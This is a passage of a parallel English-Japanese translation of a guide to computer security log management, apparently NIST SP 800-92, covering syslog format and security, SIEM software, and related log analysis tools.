•ログファイル完全性検査では、各ファイルのメッセージダイジェストを計算し、安全に保存することで、アーカイブ済みログへの変更を検知する。メッセージダイジェストは、データを一意に識別するデジタル署名であり、データ中の1ビットを変更するとまったく異なるダイジェストが生成される性質を持つ。最も一般的に使用されるメッセージダイジェストアルゴリズムはMD5とセキュアハッシュアルゴリズム1（SHA-1）である。25 ログファイルを変更してメッセージダイジェストを再計算すると、元のダイジェストと一致せず、ファイルが変更されたことが分かる（will）。元のメッセージダイジェストは、FIPS承認済み暗号アルゴリズム、読み取り専用媒体への保存、その他適切な手段によって改変から保護すべきである（should）。
•Analysis
•分析
•Event correlation is finding relationships between two or more log entries. The most common form of event correlation is rule-based correlation, which matches multiple log entries from a single source or multiple sources based on logged values, such as timestamps, IP addresses, and event types. Event correlation can also be performed in other ways, such as using statistical methods or visualization tools. If correlation is performed through automated methods, generally the result of successful correlation is a new log entry that brings together the pieces of information into a single place. Depending on the nature of that information, the infrastructure might also generate an alert to indicate that the identified event needs further investigation.
•イベント相関とは、2つ以上のログエントリ間の関係を見つけることである。最も一般的なイベント相関の形式はルールベース相関であり、タイムスタンプ、IPアドレス、イベント種別などの記録値に基づいて、単一または複数のソースからの複数ログエントリを照合する。イベント相関は、統計的手法や可視化ツールなど別の方法でも実行できる（can）。自動化された方法で相関を実行した場合、通常、相関に成功した結果は、情報を一か所にまとめる新しいログエントリとなる。情報の性質によっては、識別されたイベントに追加調査が必要であることを示すアラートをインフラストラクチャが生成する場合もある（might）。
•Log viewing is displaying log entries in a human-readable format. Most log generators provide some sort of log viewing capability; third-party log viewing utilities are also available. Some log viewers provide filtering and aggregation capabilities.
•ログ表示とは、人が読める形式でログエントリを表示することである。ほとんどのログ生成元は何らかのログ表示機能を提供する。サードパーティ製のログ表示ユーティリティも利用できる。一部のログビューアーはフィルタリングおよび集約機能を備える。
•Log reporting is displaying the results of log analysis. Log reporting is often performed to summarize significant activity over a particular period of time or to record detailed information related to a particular event or series of events.
•ログ報告とは、ログ分析結果を表示することである。ログ報告は、特定期間の重要な活動を要約したり、特定のイベントまたは一連のイベントに関する詳細情報を記録したりする目的で行われることが多い。
•Disposal
•廃棄
•Log clearing is removing all entries from a log that precede a certain date and time. Log clearing is often performed to remove old log data that is no longer needed on a system because it is not of importance or it has been archived.
•ログ消去とは、特定の日時より前のすべてのエントリをログから削除することである。ログ消去は、重要でなくなった、またはアーカイブ済みであるためシステム上で不要となった古いログデータを削除する目的で行われることが多い。
A log management infrastructure usually encompasses most or all of the functions described in this section. Section 3.1 describes the components and architectures of log management infrastructures. The placement of some of the log functions among the three tiers of the log management infrastructure depends primarily on the type of log management software used. Log management infrastructures are typically based on one of the two major categories of log management software: syslog-based centralized logging software and security information and event management software. Sections 3.3 and 3.4 describe these types of software. Section 3.5 describes additional types of software that may be valuable within a log management infrastructure.
ログ管理インフラストラクチャは通常、本節で説明した機能のほとんどまたはすべてを包含する。3.1節では、ログ管理インフラストラクチャの構成要素とアーキテクチャを説明する。ログ管理インフラストラクチャの3層間での一部のログ機能の配置は、主に使用するログ管理ソフトウェアの種類によって異なる。ログ管理インフラストラクチャは通常、ログ管理ソフトウェアの主要な2分類のいずれかに基づく。すなわち、syslogベースの集中ログ管理ソフトウェアとセキュリティ情報・イベント管理ソフトウェアである。3.3節と3.4節ではこれらのソフトウェアを説明する。3.5節では、ログ管理インフラストラクチャ内で有用となる場合がある（may）その他の種類のソフトウェアを説明する。
3.3 Syslog-Based Centralized Logging Software
3.3 Syslogベースの集中ログ管理ソフトウェア
In a logging infrastructure based on the syslog protocol, each log generator uses the same high-level format for its logs and the same basic mechanism for transferring its log entries to a syslog server running on another host.26 Syslog provides a simple framework for log entry generation, storage, and transfer, that any OS, security software, or application could use if designed to do so. Many log sources either use syslog as their native logging format or offer features that allow their log formats to be converted to syslog format. Section 3.3.1 describes the format of syslog messages, and Section 3.3.2 discusses the security features of common syslog implementations.27
syslogプロトコルに基づくロギングインフラストラクチャでは、各ログ生成元がログに同じ高水準形式を使用し、別のホストで稼働するsyslogサーバーへログエントリを転送するための同じ基本メカニズムを使用する。26 syslogは、ログエントリの生成、保存、転送のための単純な枠組みを提供し、設計上対応していれば、あらゆるOS、セキュリティソフトウェア、アプリケーションが使用できる（could）。多くのログソースは、syslogをネイティブのロギング形式として使用するか、ログ形式をsyslog形式に変換する機能を提供する。3.3.1節ではsyslogメッセージの形式を説明し、3.3.2節では一般的なsyslog実装のセキュリティ機能を論じる。27
3.3.1 Syslog Format
3.3.1 Syslog形式
Syslog assigns a priority to each message based on the importance of the following two attributes:
syslogは、次の2つの属性の重要度に基づいて各メッセージに優先度を割り当てる。
•Message type, known as a facility. Examples of facilities include kernel messages, mail system messages, authorization messages, printer messages, and audit messages.
•メッセージ種別（ファシリティ）。ファシリティの例には、カーネルメッセージ、メールシステムメッセージ、認証メッセージ、プリンターメッセージ、監査メッセージがある。
•Severity. Each log message has a severity value assigned, from 0 (emergency) to 7 (debug).28
•重大度。各ログメッセージには、0（緊急）から7（デバッグ）までの重大度値が割り当てられる。28
Syslog uses message priorities to determine which messages should be handled more quickly, such as forwarding higher-priority messages more quickly than lower-priority ones. However, the priority does not affect which actions are performed on each message. Syslog can be configured to handle log entries differently based on each message’s facility and severity. For example, it could forward severity 0 kernel messages to a centralized server for further review, and simply record all severity 7 messages without forwarding them. However, syslog does not offer any more granularity than that in message handling; it cannot make decisions based on the source or content of a message.
syslogはメッセージの優先度を使用して、どのメッセージをより迅速に処理すべきか（should）を判断する。たとえば、優先度の高いメッセージを低いメッセージより早く転送する。ただし、優先度は各メッセージに対して実行される処理には影響しない。syslogは、各メッセージのファシリティと重大度に基づいてログエントリの処理を変えるよう構成できる（can）。たとえば、重大度0のカーネルメッセージを詳細確認のため集中サーバーに転送し、重大度7のメッセージは転送せず単に記録することができる場合がある（could）。ただし、syslogがメッセージ処理で提供する粒度はこれ以上ではなく、メッセージの送信元や内容に基づいて判断することはできない。
Syslog is intended to be very simple, and each syslog message has only three parts. The first part specifies the facility and severity as numerical values. The second part of the message contains a timestamp and the hostname or IP address of the source of the log. The third part is the actual log message content. No standard fields are defined within the message content; it is intended to be human-readable, and not easily machine-parseable. This provides very high flexibility for log generators, which can place whatever information they deem important within the content field, but it makes automated analysis of the log data very challenging. A single source may use many different formats for its log message content, so an analysis program would need to be familiar with each format and be able to extract the meaning of the data within the fields of each format. This problem becomes much more challenging when log messages are generated by many sources. It might not be feasible to understand the meaning of all log messages, so analysis might be limited to keyword and pattern searches. Some organizations design their syslog infrastructures so that similar types of messages are grouped together or assigned similar codes, which can make log analysis automation easier to perform. Figure 3-1 shows several examples of syslog messages.
syslogは非常に単純になるよう設計されており、各syslogメッセージは3つの部分だけで構成される。第1の部分はファシリティと重大度を数値で指定する。第2の部分には、タイムスタンプとログの送信元のホスト名またはIPアドレスが含まれる。第3の部分は実際のログメッセージ内容である。メッセージ内容内に標準フィールドは定義されていない。内容は人が読めることを意図しており、機械が容易に解析できるものではない。このためログ生成元の柔軟性は非常に高く、重要と判断した任意の情報を内容フィールドに配置できる（can）が、ログデータの自動分析は非常に困難になる。同一の送信元がログメッセージの内容に多数の異なる形式を使用する場合がある（may）。そのため、分析プログラムは各形式を理解し、それぞれの形式のフィールド内のデータの意味を抽出できる必要がある（would）。多数の送信元がログメッセージを生成する場合、この問題はさらに困難になる。すべてのログメッセージの意味を理解することは実現できない可能性があり（might）、分析はキーワード検索やパターン検索に限られる場合がある（might）。一部の組織は、類似するメッセージ種別をグループ化したり類似コードを割り当てたりするようsyslogインフラストラクチャを設計している。これによりログ分析の自動化が容易になる場合がある（can）。図3-1にsyslogメッセージの例をいくつか示す。
Mar 1 06:25:43 server1 sshd[23170]: Accepted publickey for server2 from 172.30.128.115 port 21011 ssh2
Mar 1 06:25:43 server1 sshd[23170]: Accepted publickey for server2 from 172.30.128.115 port 21011 ssh2
Mar 1 07:16:42 server1 sshd[9326]: Accepted password for murugiah from 10.20.30.108 port 1070 ssh2
Mar 1 07:16:42 server1 sshd[9326]: Accepted password for murugiah from 10.20.30.108 port 1070 ssh2
Mar 1 07:16:53 server1 sshd[22938]: reverse mapping checking getaddrinfo for ip10.165.nist.gov failed - POSSIBLE BREAKIN ATTEMPT!
Mar 1 07:16:53 server1 sshd[22938]: reverse mapping checking getaddrinfo for ip10.165.nist.gov failed - POSSIBLE BREAKIN ATTEMPT!
Mar 1 07:26:28 server1 sshd[22572]: Accepted publickey for server2 from 172.30.128.115 port 30606 ssh2
Mar 1 07:26:28 server1 sshd[22572]: Accepted publickey for server2 from 172.30.128.115 port 30606 ssh2
Mar 1 07:28:33 server1 su: BAD SU kkent to root on /dev/ttyp2
Mar 1 07:28:33 server1 su: BAD SU kkent to root on /dev/ttyp2
Mar 1 07:28:41 server1 su: kkent to root on /dev/ttyp2
Mar 1 07:28:41 server1 su: kkent to root on /dev/ttyp2
Figure 3-1. Examples of Syslog Messages
図3-1. Syslogメッセージの例
3.3.2 Syslog Security
3.3.2 Syslogのセキュリティ
Syslog was developed at a time when the security of logs was not a major consideration. Accordingly, it did not support the use of basic security controls that would preserve the confidentiality, integrity, and availability of logs. For example, most syslog implementations use the connectionless, unreliable User Datagram Protocol (UDP) to transfer logs between hosts. UDP provides no assurance that log entries are received successfully or in the correct sequence. Also, most syslog implementations do not perform any access control, so any host can send messages to a syslog server unless other security measures have been implemented to prevent this, such as using a physically separate logging network for communications with the syslog server, or implementing access control lists on network devices to restrict which hosts can send messages to the syslog server. Attackers can take advantage of this by flooding syslog servers with bogus log data, which can cause important log entries to go unnoticed or even potentially cause a denial of service. Another shortcoming of most syslog implementations is that they cannot use encryption to protect the integrity or confidentiality of logs in transit. Attackers on the network might monitor syslog messages containing sensitive information regarding system configurations and security weaknesses; attackers might also be able to perform man-in-the-middle attacks such as modifying or destroying syslog messages in transit.29
syslogは、ログのセキュリティが主要な考慮事項ではなかった時代に開発された。そのため、ログの機密性、完全性、可用性を維持する（would）基本的なセキュリティ管理策をサポートしていなかった。たとえば、ほとんどのsyslog実装は、ホスト間でログを転送するため、コネクションレスで信頼性のないユーザーデータグラムプロトコル（UDP）を使用する。UDPは、ログエントリが正常に、または正しい順序で受信されることを保証しない。また、ほとんどのsyslog実装はアクセス制御を実施しないため、syslogサーバーとの通信に物理的に分離されたロギングネットワークを使用する、またはネットワーク機器のアクセス制御リストを実装してメッセージを送信できる（can）ホストを制限するといった他のセキュリティ対策が導入されていない限り、どのホストからでもsyslogサーバーにメッセージを送信できる（can）。攻撃者はこの点を悪用して、偽のログデータを大量に送り付けてsyslogサーバーを溢れさせることができる（can）。これにより、重要なログエントリが見落とされたり、場合によってはサービス拒否が生じたりする可能性がある（can）。ほとんどのsyslog実装のもう一つの欠点は、転送中のログの完全性または機密性を保護する暗号化を使用できないことである。ネットワーク上の攻撃者は、システム構成やセキュリティ上の弱点に関する機密情報を含むsyslogメッセージを監視する場合がある（might）。また、攻撃者は転送中のsyslogメッセージを変更または破壊するなど、中間者攻撃を実行できる場合がある（might）。29
As the security of logs has become a greater concern, several implementations of syslog have been created that place a greater emphasis on security.30 Most have been based on a proposed standard, RFC 3195, which was designed specifically to improve the security of syslog.31 Implementations based on RFC 3195 can support log confidentiality, integrity, and availability through several features, including the following:
ログのセキュリティへの懸念が高まるにつれ、セキュリティをより重視するsyslog実装が複数作成された。30 その大半は、syslogセキュリティの改善を特に目的として設計された提案標準RFC 3195に基づいている。31 RFC 3195に基づく実装は、以下の機能などを通じてログの機密性、完全性、可用性を支援できる（can）。
•Reliable Log Delivery. Several syslog implementations support the use of Transmission Control Protocol (TCP) in addition to UDP. TCP is a connection-oriented protocol that attempts to ensure the reliable delivery of information across networks. Using TCP helps to ensure that log entries reach their destination. Having this reliability requires the use of more network bandwidth; also, it typically takes more time for log entries to reach their destination. Some syslog implementations use log caching servers, as described in Section 3.1.
•信頼性の高いログ配信。複数のsyslog実装は、UDPに加えて伝送制御プロトコル（TCP）の使用をサポートする。TCPはコネクション型プロトコルであり、ネットワークを介した情報の信頼性の高い配信を確保しようとする。TCPの使用はログエントリが宛先に到達することの確保に役立つ。こうした信頼性を得るには、より多くのネットワーク帯域幅が必要となる。また、通常、ログエントリが宛先に到達するまでの時間も長くなる。一部のsyslog実装は、3.1節で説明したログキャッシュサーバーを使用する。
•Transmission Confidentiality Protection. RFC 3195 recommends the use of the Transport Layer Security (TLS) protocol to protect the confidentiality of transmitted syslog messages.32 TLS can protect the messages during their entire transit between hosts. TLS can only protect the payloads of packets, not their IP headers, which means that an observer on the network can identify the source and destination of transmitted syslog messages, possibly revealing the IP addresses of the syslog servers and log sources. Some syslog implementations use other means to encrypt network traffic, such as passing syslog messages through secure shell (SSH) tunnels. Protecting syslog transmissions can require additional network bandwidth and increase the time needed for log entries to reach their destination.
•転送時の機密性保護。RFC 3195は、転送されるsyslogメッセージの機密性を保護するため、トランスポート層セキュリティ（TLS）プロトコルの使用を推奨している。TLSはホスト間の転送全体を通じてメッセージを保護できる（can）。TLSが保護できる（can）のはパケットのペイロードのみであり、IPヘッダーは保護できない。そのため、ネットワーク上の観察者は転送中のsyslogメッセージの送信元と宛先を特定できる（can）。これにより、syslogサーバーとログソースのIPアドレスが明らかになる場合がある。syslogメッセージをSecure Shell（SSH）トンネル経由で送信するなど、他の方法でネットワークトラフィックを暗号化するsyslog実装もある。syslog通信の保護には、追加のネットワーク帯域幅が必要となり、ログエントリが宛先に到達するまでの時間が長くなる場合がある（can）。
•Transmission Integrity Protection and Authentication. RFC 3195 recommends that if integrity protection and authentication are desired, that a message digest algorithm be used. RFC 3195 recommends the use of MD5; proposed revisions to RFC 3195 mention the use of SHA-1.
•転送時の完全性保護および認証。RFC 3195は、完全性保護と認証が必要な場合に、メッセージダイジェストアルゴリズムを使用するよう推奨している。RFC 3195はMD5の使用を推奨している。RFC 3195の改訂案ではSHA-1の使用に言及している。
Because SHA is a FIPS-approved algorithm and MD5 is not, Federal agencies should use SHA instead of MD5 for message digests whenever feasible.33
SHAはFIPS承認済みアルゴリズムであり、MD5はそうではないため、連邦政府機関は可能な場合には常に、メッセージダイジェストにMD5ではなくSHAを使用すべきである（should）。33
Some syslog implementations offer additional features that are not based on RFC 3195. The most common extra features are as follows:
一部のsyslog実装は、RFC 3195に基づかない追加機能を提供する。最も一般的な追加機能を以下に示す。
•Robust Filtering. Original syslog implementations allowed messages to be handled differently based on their facility and priority only; no finer-grained filtering was permitted. Some current syslog implementations offer more robust filtering capabilities, such as handling messages differently based on the host or program that generated a message, or a regular expression matching content in the body of a message. Some implementations also allow multiple filters to be applied to a single message, which provides more complex filtering capabilities.
•堅牢なフィルタリング。従来のsyslog実装では、ファシリティと優先度のみに基づいてメッセージを異なる方法で処理でき、より細かなフィルタリングは許可されていなかった。現在のsyslog実装の中には、メッセージを生成したホストまたはプログラムに基づいて、あるいはメッセージ本文の内容に一致する正規表現に基づいて処理を変えるなど、より堅牢なフィルタリング機能を提供するものがある。一部の実装は単一メッセージに複数のフィルターを適用でき、より複雑なフィルタリング機能を実現する。
•Log Analysis. Originally, syslog servers did not perform any analysis of log data; they simply provided a framework for log data to be recorded and transmitted. Administrators could use separate add-on programs for analyzing syslog data. Some syslog implementations now have limited log analysis capabilities built in, such as the ability to correlate multiple log entries.
•ログ分析。従来、syslogサーバーはログデータを分析せず、ログデータの記録と転送の枠組みを提供するだけだった。管理者はsyslogデータの分析に別途アドオンプログラムを使用できた（could）。現在は、一部のsyslog実装に、複数ログエントリの相関など、限定的なログ分析機能が組み込まれている。
•Event Response. Some syslog implementations can initiate actions when certain events are detected. Examples of actions include sending SNMP traps, alerting administrators through pages or e-mails, and launching a separate program or script. It is also possible to create a new syslog message that indicates a certain event was detected.
•イベント対応。一部のsyslog実装は、特定のイベントを検知したときにアクションを開始できる（can）。アクションの例には、SNMPトラップの送信、ページャーまたは電子メールによる管理者への警告、別のプログラムまたはスクリプトの起動がある。特定のイベントが検知されたことを示す新しいsyslogメッセージを作成することも可能である。
•Alternative Message Formats. Some syslog implementations can accept data in non-syslog formats, such as SNMP traps. This can be helpful for getting security event data from hosts that do not support syslog and cannot be modified to do so.
•代替メッセージ形式。一部のsyslog実装は、SNMPトラップなど、syslog以外の形式のデータを受け入れることができる（can）。syslogをサポートせず、対応するよう変更できないホストからセキュリティイベントデータを取得するうえで有用である（can）。
•Log File Encryption. Some syslog implementations can be configured to encrypt rotated log files automatically, protecting their confidentiality. This can also be accomplished through the use of OS or third-party encryption programs.
•ログファイルの暗号化。一部のsyslog実装は、ローテーションされたログファイルを自動的に暗号化し、その機密性を保護するよう構成できる（can）。OSまたはサードパーティ製の暗号化プログラムを使用しても同様のことを実現できる（can）。
•Database Storage for Logs. Some implementations can store log entries in both traditional syslog files and a database. Having the log entries in a database format can be very helpful for subsequent log analysis.
•ログのデータベース保存。一部の実装は、従来のsyslogファイルとデータベースの両方にログエントリを保存できる（can）。ログエントリをデータベース形式で保存すると、その後のログ分析に非常に役立つ（can）。
•Rate Limiting. Some implementations can limit the number of syslog messages or TCP connections from a particular source during a certain period of time. This is useful in preventing a denial of service for the syslog server and the loss of syslog messages from other sources. Because this technique is designed to cause the loss of messages from a source that is overwhelming the syslog server, it can cause some log data to be lost during an adverse event that generates an unusually large number of messages.
•レート制限。一部の実装は、特定期間中に特定の送信元から受信するsyslogメッセージ数またはTCP接続数を制限できる（can）。これは、syslogサーバーのサービス拒否と、他の送信元からのsyslogメッセージの損失を防ぐうえで有用である。この手法は、syslogサーバーを圧倒する送信元からのメッセージ損失を引き起こすよう設計されているため、異常に大量のメッセージを発生させる有害事象の際に、一部のログデータを失わせる可能性もある（can）。
Organizations using syslog implementations based on the original syslog message format and transfer protocol should consider using syslog implementations that offer stronger protection for confidentiality, integrity, and availability. Many of these implementations can directly replace existing syslog implementations. When evaluating syslog replacements, organizations should pay particular attention to interoperability, because many syslog clients and servers offer features not specified in RFC 3195 or other standard-related efforts. Also, organizations that use security information and event management software (as described in Section 3.4) to store or analyze syslog messages should ensure that their syslog clients and servers are fully compatible and interoperable with the security information and event management software.
元のsyslogメッセージ形式および転送プロトコルに基づくsyslog実装を使用する組織は、機密性、完全性、可用性をより強く保護するsyslog実装の使用を検討すべきである（should）。これらの実装の多くは、既存のsyslog実装を直接置き換えることができる（can）。syslogの置き換え製品を評価する際、組織は相互運用性に特に注意すべきである（should）。多くのsyslogクライアントとサーバーは、RFC 3195またはその他の標準関連作業で規定されていない機能を提供するためである。また、syslogメッセージの保存または分析にセキュリティ情報・イベント管理ソフトウェア（3.4節で説明）を使用する組織は、syslogクライアントおよびサーバーがそのソフトウェアと完全に互換性を持ち、相互運用できることを確保すべきである（should）。
3.4 Security Information and Event Management Software
3.4 セキュリティ情報・イベント管理ソフトウェア
Security information and event management (SIEM) software34 is a relatively new type of centralized logging software compared to syslog.35 SIEM products have one or more log servers that perform log analysis, and one or more database servers that store the logs.36 Most SIEM products support two ways of collecting logs from log generators:
セキュリティ情報・イベント管理（SIEM）ソフトウェア34は、syslogと比べると比較的新しい種類の集中ログ管理ソフトウェアである。35 SIEM製品には、ログ分析を行う1台以上のログサーバーと、ログを保存する1台以上のデータベースサーバーがある。36 ほとんどのSIEM製品は、ログ生成元からログを収集する2つの方法をサポートする。
•Agentless. The SIEM server receives data from the individual log generating hosts without needing to have any special software installed on those hosts. Some servers pull logs from the hosts, which is usually done by having the server authenticate to each host and retrieve its logs regularly. In other cases, the hosts push their logs to the server, which usually involves each host authenticating to the server and transferring its logs regularly. Regardless of whether the logs are pushed or pulled, the server then performs event filtering and aggregation and log normalization and analysis on the collected logs.
•エージェントレス。SIEMサーバーは、個々のログ生成ホストに特別なソフトウェアをインストールすることなく、そのホストからデータを受信する。サーバーによるログ取得方式では、通常、各ホストにサーバーが認証し、定期的にログを取得する。別の方式では、ホストがサーバーにログを送信する。通常、各ホストがサーバーに認証し、定期的にログを転送する。ログがプッシュまたはプルされるいずれの場合も、サーバーは収集済みログに対してイベントのフィルタリングと集約、ログの正規化と分析を行う。
•Agent-Based. An agent program is installed on the log generating host to perform event filtering and aggregation and log normalization for a particular type of log, then transmit the normalized log data to an SIEM server, usually on a real-time or near-real-time basis for analysis and storage. If a host has multiple types of logs of interest, then it might be necessary to install multiple agents. Some SIEM products also offer agents for generic formats such as syslog and SNMP. A generic agent is used primarily to get log data from a source for which a format-specific agent and an agentless method are not available. Some products also allow administrators to create custom agents to handle unsupported log sources.
•エージェントベース。ログ生成ホストにエージェントプログラムをインストールし、特定種類のログについてイベントのフィルタリングと集約、ログの正規化を行った後、正規化済みログデータをSIEMサーバーへ送信する。通常、分析および保存のためにリアルタイムまたは準リアルタイムで送信される。関心対象のログが複数種類あるホストでは、複数のエージェントをインストールする必要がある場合がある（might）。一部のSIEM製品はsyslogやSNMPなどの汎用形式に対応するエージェントも提供する。汎用エージェントは主に、形式固有エージェントもエージェントレス方式も利用できないソースからログデータを取得するために使用される。一部の製品では、サポートされていないログソースを扱うカスタムエージェントを管理者が作成することもできる。
There are advantages and disadvantages to each method. The primary advantage of the agentless approach is that agents do not need to be installed, configured, and maintained on each logging host. The primary disadvantage is the lack of filtering and aggregation at the individual host level, which can cause significantly larger amounts of data to be transferred over networks and increase the amount of time it takes to filter and analyze the logs. Another potential disadvantage of the agentless method is that the SIEM server may need credentials for authenticating to each logging host. In some cases, only one of the two methods is feasible; for example, there might be no way to remotely collect logs from a particular host without installing an agent onto it.
各方式には長所と短所がある。エージェントレス方式の主な利点は、各ロギングホストにエージェントをインストール、構成、保守する必要がないことである。主な欠点は、個々のホストレベルでのフィルタリングと集約ができないことであり、その結果、ネットワーク上で転送するデータ量が大幅に増加し、ログのフィルタリングと分析にかかる時間が長くなる場合がある（can）。エージェントレス方式のもう一つの潜在的な欠点は、SIEMサーバーが各ロギングホストへの認証情報を必要とする場合がある（may）ことである。場合によっては、2つの方式のうち一方しか実行可能でない。たとえば、エージェントをインストールせずに特定ホストからログをリモート収集する方法がない場合がある（might）。
SIEM products usually include support for several dozen types of log sources, such as OSs, security software, application servers (e.g., Web servers, e-mail servers), and even physical security control devices such as badge readers. For each supported log source type, except for generic formats such as syslog, the SIEM products typically know how to categorize the most important logged fields (e.g., the value in field 12 of application XYZ’s logs signifies the source IP address). This significantly improves the normalization, analysis, and correlation of log data over that performed by software with a less granular understanding of specific log sources and formats. Also, the SIEM software can perform event reduction by disregarding those data fields that are not significant to computer security, potentially reducing the SIEM software’s network bandwidth and data storage usage.
SIEM製品は通常、OS、セキュリティソフトウェア、アプリケーションサーバー（Webサーバー、電子メールサーバーなど）、さらにはバッジリーダーなどの物理セキュリティ制御機器を含む、数十種類のログソースに対応する。syslogなどの汎用形式を除き、サポート対象の各ログソース種別について、SIEM製品は通常、記録される最も重要なフィールドを分類する方法を把握している（例：アプリケーションXYZのログの第12フィールドの値が送信元IPアドレスを表す）。これにより、特定のログソースや形式に対する理解がより粗いソフトウェアに比べ、ログデータの正規化、分析、相関が大幅に改善される。また、SIEMソフトウェアは、コンピュータセキュリティ上重要でないデータフィールドを無視してイベント削減を行うことができる（can）。これにより、SIEMソフトウェアのネットワーク帯域幅とデータ保存の使用量を減らせる可能性がある。
Regardless of how it receives log data (through agents or an agentless method), an SIEM server analyzes the data from all the different log sources, correlates events among the log entries, identifies and prioritizes significant events,37 and initiates responses to events if desired. SIEM products usually include several features to help log monitoring staff, such as the following:
ログデータを受信する方法（エージェント経由またはエージェントレス方式）にかかわらず、SIEMサーバーはさまざまなログソースのデータを分析し、ログエントリ間のイベントを相関させ、重要なイベントを識別して優先順位を付け、37 必要に応じてイベントへの対応を開始する。SIEM製品には通常、ログ監視担当者を支援する以下のような複数の機能が含まれる。
•Graphical user interfaces (GUI) that are specifically designed to assist analysts in identifying potential problems and reviewing all available data related to each problem
•アナリストが潜在的な問題を特定し、各問題に関連する利用可能なすべてのデータを確認できるよう特別に設計されたグラフィカルユーザーインターフェース（GUI）
•A security knowledge base, with information on known vulnerabilities, the likely meaning of certain log messages, and other technical data; log analysts can often customize the knowledge base as needed
•既知の脆弱性、特定ログメッセージが持つ可能性のある意味、その他の技術データに関する情報を含むセキュリティナレッジベース。ログ分析者は必要に応じてナレッジベースをカスタマイズできる（can）。
•Incident tracking and reporting capabilities, sometimes with robust workflow features
•インシデント追跡および報告機能。堅牢なワークフロー機能を備える場合もある。
•Asset information storage and correlation (e.g., giving higher priority to an attack that targets a vulnerable OS or a more important host).
•資産情報の保存および相関（脆弱なOSやより重要なホストを標的とする攻撃に高い優先度を付けるなど）。
There are no standards specific to SIEM, so each SIEM product stores and transmits data in any format it chooses. However, SIEM products usually offer capabilities to protect the confidentiality, integrity, and availability of log data. For example, network communications between agents and the SIEM servers typically occur over the reliable TCP protocol and are encrypted. Also, agents and SIEM servers may need to provide credentials to each other and be authenticated successfully before they can transfer data (e.g., agent sending logs to server, server reconfiguring agent).
SIEMに固有の標準はないため、各SIEM製品は選択した任意の形式でデータを保存・転送する。ただし、SIEM製品は通常、ログデータの機密性、完全性、可用性を保護する機能を備える。たとえば、エージェントとSIEMサーバー間のネットワーク通信は通常、信頼性の高いTCPプロトコルで行われ、暗号化される。また、データを転送する前に、エージェントとSIEMサーバーは相互に認証情報を提示し、認証に成功する必要がある場合がある（may）。その後、データを転送できる（can）。たとえば、エージェントからサーバーへログを送信する場合や、サーバーがエージェントを再構成する場合である。
3.5 Additional Types of Log Management Software
3.5 その他の種類のログ管理ソフトウェア
Other types of software may also be helpful for log management, including the following:
以下を含むその他の種類のソフトウェアも、ログ管理に役立つ場合がある（may）。
•Host-Based Intrusion Detection Systems (IDS). A host-based IDS monitors the characteristics of a single host and the events occurring within the host for suspicious activity. Many host-based IDS products monitor hosts’ OS, security software, and application logs. Some host-based IDS products use logs as only one of several sources of data in detecting suspicious activity, while other host-based IDS products monitor logs only. Generally, a host-based IDS that uses log data has signatures for known malicious activity that it matches against log entries to identify events of interest. However, such products often focus on the OS logs and the most common security software and applications, and offer little or no support for less common software.
•ホストベース侵入検知システム（IDS）。ホストベースIDSは、単一ホストの特性と、そのホスト内で発生するイベントを監視して不審な活動を検知する。多くのホストベースIDS製品は、ホストのOS、セキュリティソフトウェア、アプリケーションログを監視する。一部の製品は、不審な活動を検知する際に複数のデータソースの一つとしてログを使用するが、ログのみを監視する製品もある。一般に、ログデータを使用するホストベースIDSは、既知の悪意ある活動のシグネチャを持ち、それをログエントリと照合して関心のあるイベントを識別する。ただし、こうした製品はOSログと最も一般的なセキュリティソフトウェアおよびアプリケーションに重点を置くことが多く、一般的でないソフトウェアへの対応はほとんどないか、まったくない。
•Visualization Tools. A visualization tool presents security event data in a graphical format. For example, a tool could display data grouped or sorted by the values of different event characteristics, such as source address. An analyst can then look for patterns in the display and manipulate it, such as suppressing known benign activity so that only unknown events are shown. Visualization tools can be very effective for analyzing certain types of log data, such as showing the sequence of events that occurred in an attack involving several hosts. Many SIEM products have built-in visualization tools. Third-party tools can also be added to log management infrastructures that lack them, but they may be more challenging to use than built-in tools. Importing data into a third-party tool and displaying it is usually relatively straightforward, but learning how to use the tool efficiently to reduce large datasets down to a few events of interest can take considerable effort.
•可視化ツール。可視化ツールはセキュリティイベントデータをグラフィカル形式で表示する。たとえば、送信元アドレスなど、異なるイベント特性の値ごとにグループ化または並べ替えたデータを表示できる場合がある（could）。アナリストは表示内のパターンを探し、既知の無害な活動を抑制して未知のイベントだけを表示するなど、表示を操作できる（can）。可視化ツールは、複数のホストが関与する攻撃で発生したイベントの順序を示すなど、特定種類のログデータ分析に非常に効果的である（can）。多くのSIEM製品には可視化ツールが組み込まれている。可視化ツールを持たないログ管理インフラストラクチャにはサードパーティ製ツールを追加できる（can）が、組み込みツールより使いこなすのが難しい場合がある（may）。サードパーティ製ツールへのデータの取り込みと表示は通常比較的容易だが、大規模データセットを関心のある少数のイベントに絞り込むために効率よくツールを使う方法を学ぶには、かなりの労力が必要になる場合がある（can）。
•Log Rotation Utilities. Administrators can use specialized third-party utilities for rotating logs. These can be helpful for improving log management for log sources that do not offer sufficiently robust log rotation capabilities or any capability at all.
•ログローテーションユーティリティ。管理者はログローテーション専用のサードパーティ製ユーティリティを使用できる（can）。これらは、十分に堅牢なログローテーション機能を提供しない、または機能をまったく提供しないログソースのログ管理を改善するうえで役立つ（can）。
•Log Conversion Utilities. Many software vendors offer log conversion utilities that can be used to convert their proprietary format logs into standard formats. These utilities are helpful in incorporating data from less common log sources into a log management infrastructure, such as when an SIEM product does not offer support for a particular log format. Log conversion utilities are also helpful when a syslog-based log management infrastructure is being used and one or more log generators cannot log directly to syslog.
•ログ変換ユーティリティ。多くのソフトウェアベンダーは、独自形式のログを標準形式に変換するために使用できる（can）ログ変換ユーティリティを提供している。これらのユーティリティは、特定のログ形式をSIEM製品がサポートしない場合など、一般的でないログソースからのデータをログ管理インフラストラクチャに取り込む際に役立つ。syslogベースのログ管理インフラストラクチャが使用されており、1つ以上のログ生成元がsyslogに直接記録できない場合にも有用である。
3.6 Summary
3.6 まとめ
A log management infrastructure consists of the hardware, software, networks, and media used to generate, transmit, store, analyze, and dispose of log data. Log management infrastructures typically perform several functions that support the analysis of events, such as filtering, aggregation, normalization, and correlation. The infrastructures also provide assistance in making log data accessible and maintaining it through functions such as log parsing, viewing, analysis, rotation, and archival, as well as log file integrity checking.
ログ管理インフラストラクチャは、ログデータの生成、転送、保存、分析、廃棄に使用するハードウェア、ソフトウェア、ネットワーク、媒体から構成される。ログ管理インフラストラクチャは通常、フィルタリング、集約、正規化、相関など、イベント分析を支援する複数の機能を実行する。また、ログ解析、表示、分析、ローテーション、アーカイブ、およびログファイル完全性検査などの機能を通じて、ログデータへのアクセスとその維持を支援する。
